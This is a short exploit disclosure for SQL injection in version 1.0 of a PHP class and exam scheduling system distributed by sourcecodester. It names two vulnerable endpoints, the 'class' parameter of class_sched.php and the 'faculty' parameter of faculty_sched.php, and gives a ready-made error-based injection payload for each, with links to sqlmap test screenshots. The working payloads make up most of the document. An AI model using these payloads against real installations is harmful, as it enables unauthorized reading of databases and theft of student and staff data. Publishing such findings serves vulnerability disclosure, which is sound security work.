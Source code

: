 # Online Class and Exam Scheduling System-SQL injections

### Date: 2022-08/07



### Exploit Author: anx0ing@gmail.com



### Vendor Homepage: 

[https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

https://www.sourcecodester.com/php/11353/online-class-and-exam-scheduling-system.html



### Version: 1.0



### /pages/class_sched.php

> `class`Parameters have SQL injection

**payload**

```
class='||(SELECT 0x684d6b6c WHERE 5993=5993 AND (SELECT 2096 FROM(SELECT COUNT(*),CONCAT(0x717a786b71,(SELECT (ELT(2096=2096,1))),0x717a626271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&search=
```

**SQLMAP Test**

![image-20220807222139658](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220807222139658.png)





### /pages/faculty_sched.php

> `faculty`Parameters have SQL injection

**payload**

```
faculty=' OR (SELECT 2078 FROM(SELECT COUNT(*),CONCAT(0x716a717071,(SELECT (ELT(2078=2078,1))),0x717a706a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- uYCM&search=
```

**SQLMAP Test**

![image-20220807224208417](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220807224208417.png)

